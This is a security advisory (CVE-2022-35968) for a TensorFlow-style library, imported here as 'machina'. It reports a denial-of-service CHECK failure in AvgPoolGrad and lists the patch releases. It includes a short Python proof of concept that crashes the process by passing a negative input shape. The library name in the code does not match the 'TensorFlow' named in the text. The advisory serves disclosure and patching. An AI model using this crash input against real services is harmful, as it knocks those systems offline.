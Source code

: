 ## TFSA-2022-100: `CHECK` fail in `AvgPoolGrad`

### CVE Number
CVE-2022-35968

### Impact
The implementation of `AvgPoolGrad` does not fully validate the input `orig_input_shape`. This results in a `CHECK` failure which can be used to trigger a denial of service attack:
```python
import machina as tf

ksize = [1, 2, 2, 1]
strides = [1, 2, 2, 1]
padding = "VALID"
data_format = "NHWC"
orig_input_shape = tf.constant(-536870912, shape=[4], dtype=tf.int32)
grad = tf.constant(.0890338004362538, shape=[1,5,7,1], dtype=tf.float64)
tf.raw_ops.AvgPoolGrad(orig_input_shape=orig_input_shape, grad=grad, ksize=ksize, strides=strides, padding=padding, data_format=data_format)
```

### Patches
We have patched the issue in GitHub commit [3a6ac52664c6c095aa2b114e742b0aa17fdce78f](https://github.com/machina/machina/commit/3a6ac52664c6c095aa2b114e742b0aa17fdce78f).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
